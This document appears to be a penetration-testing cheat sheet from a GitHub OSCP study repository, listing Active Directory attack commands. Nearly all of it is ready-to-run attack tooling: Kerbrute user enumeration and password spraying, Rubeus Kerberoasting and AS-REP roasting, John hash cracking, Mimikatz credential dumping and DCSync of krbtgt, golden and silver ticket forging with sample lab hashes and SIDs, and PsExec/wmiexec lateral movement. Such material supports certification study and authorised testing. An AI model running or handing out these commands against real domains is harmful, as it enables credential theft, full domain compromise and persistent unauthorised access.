   - [Crackmap](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#crackmap)
  - [Kerbrute](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#kerbrute)
  - [Rubeus](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#rubeus)
  - [Roasting](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#roasting)
  - [Mimikatz](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#mimikatz)
  - [Lateral Movement](https://github.com/conma293/OSCP-tools/blob/master/cheatsheets/BasicAD.md#lateral-movement)

More - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a


# Crackmap

```crackmapexec <service> [hostname/ip]```

```crackmapexec smb 10.10.10.175```

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus
https://www.hackingarticles.in/a-detailed-guide-on-rubeus/

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting
https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/

https://www.hackingarticles.in/as-rep-roasting/

```Rubeus.exe kerberoast /nowrap```

```Rubeus.exe asreproast /nowrap```

- ```/format:[hashcat | john]> /outfile:Hashes.txt```

```john hash.txt```

```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt```

- ```--format=krb5tgs```


# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT (OverPass-the-Hash / Pass-the-Key):

```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
```

```sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe```

OR

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

* * * 

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now we can create a Golden Ticket:
```Kerberos::purge```

```
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

Prove we have DA permissions:
```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```kerberos::list```

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'```

```Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'```

# Lateral Movement
```PsExec.exe -accepteula \\$HOSTNAME cmd```

```psexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```smbexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```wmiexec.py $DOMAIN/$USER@$HOSTNAME -k -no-pass```

```rdesktop -d domain -u user -p password01 -r disk:local_folder=/path/to/shared_folder <hostname/IP> ```
